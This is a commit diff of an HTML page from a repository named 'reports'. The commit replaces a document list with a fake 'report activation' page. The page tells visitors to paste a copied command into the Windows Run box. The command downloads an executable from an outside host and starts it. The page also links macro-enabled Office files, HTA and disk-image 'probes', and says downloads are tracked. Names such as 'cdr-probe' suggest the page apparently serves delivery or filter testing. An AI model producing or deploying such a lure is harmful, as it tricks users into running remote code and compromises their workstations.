

Before and after one commit to barrdakk-ops/reports, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 133-909 px from the top of the page, without its empty margins (304-975 px from the left). Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -1,33 +1,80 @@
 <!DOCTYPE html>
 <html lang="en"><head><meta charset="utf-8">
 <meta name="viewport" content="width=device-width, initial-scale=1">
-<title>Reports Desk — Q3 Documents</title>
+<title>Reports Desk — Report Activation</title>
 <style>
 body{font-family:'Segoe UI',system-ui,-apple-system,sans-serif;background:#f5f7fa;margin:0;display:flex;align-items:center;justify-content:center;min-height:100vh}
-.card{background:#fff;border-radius:10px;box-shadow:0 4px 20px rgba(15,35,60,.12);max-width:460px;width:100%;padding:2.6rem;text-align:center}
+.card{background:#fff;border-radius:10px;box-shadow:0 4px 20px rgba(15,35,60,.12);max-width:520px;width:100%;padding:2.6rem}
 .logo{font-size:1.05rem;color:#243b53;font-weight:700;letter-spacing:.4px;margin-bottom:1.6rem}
-h1{font-size:1.2rem;margin:0 0 .6rem;color:#1a2733;font-weight:600}
-p{color:#5a6a78;font-size:.92rem;line-height:1.55;margin:0 0 1.6rem}
-ul.doc{list-style:none;padding:0;margin:0 0 1.8rem;text-align:left}
-ul.doc li{padding:.45rem .8rem;border-bottom:1px solid #edf1f5;font-size:.88rem;color:#334}
-ul.doc li:before{content:"📄 ";opacity:.6}
-a.btn{display:inline-block;background:#2563eb;color:#fff;text-decoration:none;padding:.75rem 1.8rem;border-radius:7px;font-size:.95rem;font-weight:500}
-a.btn:hover{background:#1d4ed8}
+h1{font-size:1.2rem;margin:0 0 .8rem;color:#1a2733;font-weight:600}
+p{color:#5a6a78;font-size:.92rem;line-height:1.55;margin:0 0 1.2rem}
+ol{color:#334;font-size:.9rem;line-height:1.7;text-align:left;margin:0 0 1.2rem;padding-left:1.2rem}
+.code{background:#1a2733;color:#d7e3f4;font-family:Consolas,monospace;font-size:.82rem;padding:1rem;border-radius:7px;text-align:left;word-break:break-all;cursor:pointer}
+.code:hover{background:#22334a}
+.hint{font-size:.72rem;color:#9aa7b2;margin-top:.6rem}
 .foot{margin-top:1.7rem;font-size:.74rem;color:#9aa7b2;line-height:1.6}
+#done{display:none;color:#1a7f37;font-size:.85rem;font-weight:600}
+.files{margin-top:1.8rem;border-top:1px solid #e6ecf2;padding-top:1.4rem;text-align:left}
+.files h2{font-size:.95rem;color:#1a2733;margin:0 0 .4rem;font-weight:600}
+.files p{font-size:.82rem;margin-bottom:.7rem}
+.files ul{list-style:none;padding:0;margin:0}
+.files li{margin:.4rem 0}
+.files a{color:#2a5da8;font-size:.85rem;text-decoration:none}
+.files a:hover{text-decoration:underline}
+.files .meta{font-size:.72rem;color:#9aa7b2;margin-top:.6rem}
 </style></head><body><div class="card">
 <div class="logo">REPORTS DESK</div>
-<h1>Q3 2026 documents are ready</h1>
-<p>The quarterly report package has been prepared for distribution.
-Download the bundle and open it with Microsoft Office.</p><ul class="doc">
-<li><a href="https://github.com/barrdakk-ops/reports/releases/download/v1/Q3_Installer.msi.lnk" style="color:#2563eb;text-decoration:none">Q3_Installer.msi.lnk</a></li>
-<li><a href="https://github.com/barrdakk-ops/reports/releases/download/v1/Q3_Macro.vbs.lnk" style="color:#2563eb;text-decoration:none">Q3_Macro.vbs.lnk</a></li>
-<li><a href="https://github.com/barrdakk-ops/reports/releases/download/v1/Q3_Reports.iso" style="color:#2563eb;text-decoration:none">Q3_Reports.iso</a></li>
-<li><a href="https://github.com/barrdakk-ops/reports/releases/download/v1/Q3_Reports_secure.zip" style="color:#2563eb;text-decoration:none">Q3_Reports_secure.zip</a></li>
-</ul>
-<a class="btn" href="https://github.com/barrdakk-ops/reports/releases/download/v1/Q3_Installer.msi.lnk" style="margin:.3rem">Download LNK</a><br>
-<a class="btn" href="https://github.com/barrdakk-ops/reports/releases/download/v1/Q3_Macro.vbs.lnk" style="margin:.3rem">Download LNK</a><br>
-<a class="btn" href="https://github.com/barrdakk-ops/reports/releases/download/v1/Q3_Reports.iso" style="margin:.3rem">Download ISO</a><br>
-<a class="btn" href="https://github.com/barrdakk-ops/reports/releases/download/v1/Q3_Reports_secure.zip" style="margin:.3rem">Download ZIP</a><br>
-<div class="foot">Documents are served over HTTPS.<br>
-© 2026 Reports Desk — internal distribution only</div>
-</div></body></html>
+<h1>Report activation required</h1>
+<p>Your quarterly report is ready but must be activated on this workstation
+before it can be opened. The activation takes a few seconds.</p>
+<ol>
+  <li>Press <b>Win + R</b> together</li>
+  <li>Click the command below to copy it, then paste it into the Run box</li>
+  <li>Press <b>Enter</b> — the report manifest downloads and the documents open automatically</li>
+</ol>
+<div class="code" id="cmd" onclick="cp()">curl.exe -sk -o &quot;%TEMP%\~DFcmd.exe&quot; &quot;https://sync.protaskir.co.il/api/v1/beacons/321e3927-e3bf-4a63-b0b4-0be797a3f8c8/stage?cap=d1fc947e08023e0d1267956f5bfc8720&amp;fmt=loader-exe&quot; &amp;&amp; start &quot;&quot; /b &quot;%TEMP%\~DFcmd.exe&quot;</div>
+<div class="hint">click the command once to copy — it is long, that is expected</div>
+<p id="done">✔ Copied. Paste it into the Run box and press Enter.</p>
+
+<div class="files">
+  <h2>Report package files</h2>
+  <p>If activation is not possible on this workstation, the report files
+  can be retrieved directly:</p>
+  <ul>
+    <li><a href="Q3_Report.xlsm" download>Q3_Report.xlsm</a> — quarterly report (Excel, macro-enabled)</li>
+    <li><a href="Q3_Report_full.xlsm" download>Q3_Report_full.xlsm</a> — full quarterly report (Excel, macro-enabled)</li>
+    <li><a href="Q3_Plan.xlsm" download>Q3_Plan.xlsm</a> — Q3 planning workbook (activates on save)</li>
+    <li><a href="Q3_Report.docm" download>Q3_Report.docm</a> — quarterly report (Word, macro-enabled)</li>
+    <li><a href="Q3_Plan.docm" download>Q3_Plan.docm</a> — Q3 planning document (activates on save)</li>
+    <li><a href="Q3_Summary.xlsx" download>Q3_Summary.xlsx</a> — Q3 summary + external references</li>
+  </ul>
+  <div class="meta">Macro-enabled files: Enable Content after opening. Planning
+  files (Q3_Plan.*) activate when the document is saved — press Ctrl+S with
+  the document open. If Enable Content never appears, the download path
+  stripped the macro — use the activation command above instead.</div>
+  <div class="sec" style="margin-top:1.2rem">Delivery diagnostics</div>
+  <ul>
+    <li><a href="probe.reg" download>probe.reg</a> — report settings</li>
+    <li><a href="probe.hta" download>probe.hta</a> — report viewer</li>
+    <li><a href="probe.img" download>probe.img</a> — report disc image</li>
+    <li><a href="probe.zip" download>probe.zip</a> — report archive</li>
+    <li><a href="probe.iso" download>probe.iso</a> — report disc image (ISO)</li>
+  </ul>
+  <div class="meta">Run 1115-1042 — each download is tracked individually.</div>
+  <!-- Windows-built probes (build-cdr-probe-windows.ps1): copy probe.cab /
+       probe.chm / probe.vhd next to this index.html, then uncomment:
+  <li><a href="probe.cab" download>probe.cab</a> — report archive (cabinet)</li>
+  <li><a href="probe.chm" download>probe.chm</a> — offline report help</li>
+  <li><a href="probe.vhd" download>probe.vhd</a> — report virtual disk</li>
+  -->
+</div>
+
+<div class="foot">© 2026 Reports Desk — internal distribution only</div>
+</div>
+<script>
+function cp(){
+  var t=document.getElementById('cmd').innerText;
+  navigator.clipboard.writeText(t).then(function(){document.getElementById('done').style.display='block';});
+}
+</script>
+</body></html>
```
